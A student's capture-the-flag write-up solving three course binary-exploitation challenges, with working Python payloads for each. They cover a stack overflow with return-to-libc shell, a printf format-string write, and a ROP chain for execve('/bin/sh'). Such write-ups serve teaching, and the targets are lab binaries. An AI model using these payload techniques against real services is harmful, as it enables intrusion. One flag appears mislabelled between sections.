

# Fifth Assignment

## Call Me

**Security Mitigations:**

```bash
Arch:       i386-32-little
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
```
There is no No canary found in the stack so the binary can be vulnerable to a buffer overflow.

---

I used Ghidra to reverse the binary and found a particular pointer:

```bash
PTR_s_Color_me_your_color,_baby_00014020        XREF[4]:
FUN_000112f8:00011389 (*) ,
FUN_000112f8:00011392 (*) ,
FUN_000112f8:000113d6 (*) ,
FUN_000112f8:000113df (*)

00014020 08  20  01  00    addr       s_Color_me_your_color,_baby_00012008             = "Color me your color, baby"
00014024 22  20  01  00    addr       s_Color_me_your_car_00012022                     = "Color me your car"
00014028 34  20  01  00    addr       s_Color_me_your_color,_darling_00012034          = "Color me your color, darling"
```

I discovered, somewhat by chance, that if I pass the following strings to the program:

- "Color me your color, baby"
- "Color me your car"
- "Color me your color, darling"

The program prints a leaked address such as:

```bash
&target=0x5664c1ed
```

This address points to a function (`FUN_000111ed`) that prints the flag if the parameters are correct.

### The Flag:

```
BASC{you_g0t_the_args_right}
```


By analyzing the assembly, I determined that the correct values for the parameters appear to be:

- **Parameter 1**: `0x5e1ec7ed`
- **Parameter 2**: `0xca11ab1e`
- **Parameter 3**: `0xdeadfa11`

After examining the disassembled code, I observed that the binary contains a vulnerability in the use of the `gets` function. This allows user input to overflow the buffer and overwrite the return address. Consequently, I crafted an exploit to overwrite the return address with the leaked address of the target function, enabling me to call it and print the flag.


### Exploit Process:

Using `gdb` and `cyclic`, I found the offset to the saved return address, which is **112 bytes**. I then obtained the leaked address, which I used in the payload to call the target function with the correct parameters.

To craft the payload, I:
1. Overflowed the buffer with **112 bytes**.
2. Added the leaked function address.
3. Inserted the correct parameters in the right order and offsets.

The final payload is as follows:

```python
io.sendline(
    b"a" * EIP_OFFSET + p32(leaked_address) + b"a" * 4 +
    param1.to_bytes(4, byteorder='little') +
    param2.to_bytes(4, byteorder='little') +
    param3.to_bytes(4, byteorder='little')
)
```

The `b"a" * 4` is needed to make sure the parameters are in the correct positions on the stack for the function to work properly.
When a function is called, the stack looks like this:

| Stack Offset        | Content                    |
|---------------------|----------------------------|
| `16(%ebp)`          | Third parameter            |
| `12(%ebp)`          | Second parameter           |
| `8(%ebp)`           | First parameter            |
| **`4(%ebp)`**       | **Return address**         |
| **`0(%ebp)`**       | Saved value of `EBP`       |
|    .....            | Local variables            |


This setup successfully calls the target function with the expected parameters, resulting in the flag being printed:

```
BASC{GG_U_g0t_411_it_Tak3s_2_4bu5e_libC___Dv23CbS4}
```


### Return-to-libc

Another exploitation technique can be used to spawn a shell. This is possible because the binary has NX (Non-Executable Memory) enabled. Therefore, I decided to follow a return-to-libc attack to try to exploit a libc function like `system` to spawn a shell.

The first step is to find the base address, since the binary is PIE (Position Independent Executable) and ASLR (Address Space Layout Randomization) is enabled. This means the program works with offsets rather than fixed addresses.


### Base Offset

Since I have a leaked address, I can obtain the base address by calculating the offset between the leaked function address and the start address of the binary.

Using Ghidra, I found the offset between the leaked function's address and the start address:

```
offset = function_address - start_addr
```

In this case, the offset is 4589.

Now, to obtain the base address of the ELF binary, I use the leaked address obtained earlier and subtract the offset from it. This allows me to calculate the base address of the ELF.


### Leaking libc puts address

Once I have the base address of the ELF, I need to obtain the base address of libc. This can be done by getting the runtime address of a libc function and subtracting its offset in libc to find the base address.

I achieved this by exploiting the buffer overflow and using `puts` to print its own address from the GOT (Global Offset Table).

Here is the ROP chain payload I constructed:

```python
io.sendline(b"a" * (EIP_OFFSET - 8) + p32(got_address) + b"a" * 4 + p32(puts_plt) + p32(return_addr) + p32(puts_got))
```

I use `(EIP_OFFSET-8) + p32(got_address)` because if I use the entire offset, I overwrite `ebx`, which points to the GOT. By doing it this way, I avoid overwriting the GOT and continue to overwrite with 4 more bytes (`b"a" * 4`) to reach the return address.

The buffer overflow overwrites the return address with the address of `puts` in the PLT, passing its address in the GOT as an argument. This prints the leaked address. The `return_addr` is used as a return address to jump to the next instruction after the call to `puts`. This `return_addr` is the address of the function responsible for receiving input from the user, which I found using Ghidra.

### Finding the libc Base Address

Once the exploit runs, I receive output on stdout containing bytes that represent addresses. I extract the first 4 bytes, which correspond to the address of `puts` in libc. By subtracting the leaked address by the offset of the `puts` function in libc, I calculate the base address of libc.


### Spawning a Shell

With the base address of libc, I can now create the payload exploiting `system`, `/bin/sh`, and `exit` functions in libc to spawn a shell. The payload is constructed as follows:


```python
system_addr = base_libc + libc.symbols['system']
bin_sh_addr = base_libc + next(libc.search(b"/bin/sh"))
exit_addr = base_libc + libc.symbols['exit']

io.sendline(b"a" * EIP_OFFSET + p32(system_addr) + p32(exit_addr) + p32(bin_sh_addr))
```

In my script, I handled the different library offsets by using the provided library to obtain the flag remotely.


### Final Flag

After executing the exploit successfully, I obtained the following flag:

```
BASC{GG_U_g0t_411_it_Tak3s_2_4bu5e_libC___Dv23CbS4}
```


## The Answer

**Security Mitigations:**
```bash
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
```
It's a 64-bit executable with NX and stack canary enabled.

First, I looked at the disassembled code in Ghidra and immediately noticed that the executable is vulnerable to a **Format String** attack. This is because a `printf` prints the user's input without formatting it properly for printing.

```c
  sVar1 = read(0, local_1018, 0x1000);
  if (sVar1 < 1) {
    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("Hi, ");
  printf(local_1018);
```

Since `read()` can only read up to 4096 bytes, the program is not vulnerable to a buffer overflow. Even if I manage to find the canary's offset (which is located just before the return address), I can't reach it and therefore cannot perform a buffer overflow exploit due to the byte limit imposed by `read()`.

Looking at the disassembled code, I noticed a pointer at `DAT_00404dc8`. If this pointer’s value becomes `0x2a`, the program prints the flag:

```c
  if (DAT_00404dc8 == 0x2a) {
    puts("Exactly! Here’s your flag:");
    __fd = open("flag.txt", 0);
    __n = read(__fd, local_1018, 0x1000);
    write(1, local_1018, __n);
  }
```

So, the only idea I had to solve this was to exploit the format string vulnerability and try to overwrite the value at address `0x404dc8` from `BADC0FFEh` to `0x2a`.

To do this, I needed to push the address onto the stack so I could later manipulate it. Simply sending this address as input pushed it onto the stack by `read()`. After many attempts, I discovered by sending various `%p %p...` that I could find the position of my input on the stack. Specifically, my input started from position 22.

To overwrite the address, I used `printf`. I sent 42 bytes followed by `%<number>$n`, which writes the number of characters printed before to a given memory address. The address had to be padded with `<number>` (tha is >22) to match the correct position.


Next, I need to find the correct position of `0x404dc8`, so if I send the address after the previous bytes, it appears in the stack after the sequence of 42 "a" and the bytes relative to the `%<number>$n` operation that are for sure 5 bytes. This makes the possible position the 28th on the stack (because 42 + 5 = 47, so 8 * 6 = 48 and 22 + 6 = 28). However, I need to adjust the alignment of the address to ensure it appears in the correct position, as the stack stores 8-byte addresses, so the total sum of bytes must be a multiple of 8.  By simply adding one byte, like "b", it aligns the address correctly (42 + 5 + 1 = 48). This ensures that the address 0x404dc8 appears in the  `7th` 8-byte block starting from the beginning of the buffer ( from the 49th to the 56th byte), in the 28th position on the stack. 
This is the payload:  

```python  
io.sendline(b"a"*42 + b"%28$n" + b"b" + b"\xc8\x4d\x40\x00\x00\x00\x00\x00")  
```  

It’s important to write the address in little-endian byte order. So with 42 bytes, I overwrite the BADC0FFEh value into 0x2a. I verified this, as shown in the image below:  




Finally, running the script remotely gave me the flag with the correct asnwer :)

```
BASC{50_LoNg_&_Thanks_for_4ll_tH3_F1sh___9KEOfP0w}
```


## ROP Test  

```bash  
    Arch:       amd64-64-little  
    RELRO:      Full RELRO  
    Stack:      No canary found  
    NX:         NX enabled  
    PIE:        No PIE (0x400000)  
```  

This is a 64-bit executable with NX enabled.  

When I looked at the disassembled code, I immediately noticed a buffer overflow vulnerability. The program uses `fgets` to read up to 512 bytes of input, but the buffer it writes to is only 13 bytes long. Additionally, `fgets` starts writing to the buffer from the second element onward:

```c  
  ...
  char acStack_69 [13];
  ...
  
  printf("Enter a number: ");
  pcVar2 = fgets(acStack_69 + 1, 0x200, stdin);
```  

To exploit this, I first needed to figure out the offset where the buffer overflows, which I did using `cyclic`. Since NX is enabled, I had to use the existing code.

Given the name of the challenge, I decided to use a direct ROP chain.

The goal was to send a series of gadgets to run `execve("/bin/sh", 0, 0)`. To do this, I had to find gadgets in the executable.

To call the `execve("/bin/sh", 0, 0)` system call, I needed to put the parameters in these registers in the correct order, and set the syscall number in `rax`:
- `rdi` = "/bin/sh"
- `rsi` = 0
- `rdx` = 0

- `rax` = 59

In Ghidra, I saw that the string `"/bin/sh"` is stored at address `0x00402051`.

I searched for gadgets using these commands:  
```bash
ropper --file rop-test_marcocastagna99 --search "<instruction>"
```
To list all gadgets:
```bash
ROPgadget --binary rop-test_marcocastagna99 --ropchain
```

### Gadgets found:
```python
pop_rdi_addr = 0x4011cb  # pop rdi; pop rcx; ret
bin_sh_addr = 0x402051 
xor_rsi = 0x40119f        # xor rsi, rsi; ret
pop_rdx = 0x401199        # pop rdx; ret
pop_rax = 0x4011c6        # pop rax; xor rdi, rdi; ret
rax_value = 59
syscall = 0x4011d6        # syscall

return_addr = 0x40101a    # return address
```

Some gadgets contain multiple instructions, so I had to change the order of some gadgets to avoid problems. For example, the `pop rax` gadget also does `xor rdi, rdi`, which overwrites the `/bin/sh` address I set earlier. To fix this, I moved the `pop rax` gadget before `pop rdi`.

Another issue was with the `pop rdi; pop rcx; ret` gadget, where `pop rcx` would overwrite `xor rsi, rsi`, messing up the execution. I rearranged the gadgets to fix this.

### Adjusted Payload:
```python
payload = b"A" * RIP_OFFSET 
payload += p64(return_addr)  # return address to avoid segmentation fault
payload += p64(pop_rax) + p64(59)  # rax = 59, placed here because it also contains xor rdi, rdi
payload += p64(pop_rdi_addr) + p64(bin_sh_addr)  # rdi -> "/bin/sh", but the gadget also pops rcx
payload += p64(0)  # Taken from the pop rcx instruction
payload += p64(xor_rsi)  # xor rsi, rsi -> rsi = 0
payload += p64(pop_rdx) + p64(0)  # pop rdx -> rdx = 0
payload += p64(syscall) 
```
The important thing is that pop rdi, xor rsi, and pop rdx are placed in the correct order!


Running this payload successfully triggered the `execve("/bin/sh", 0, 0)` syscall and I got the flag:

```
BASC{c0d3_r3U5e_FtW___EuSWtcKE}
```  

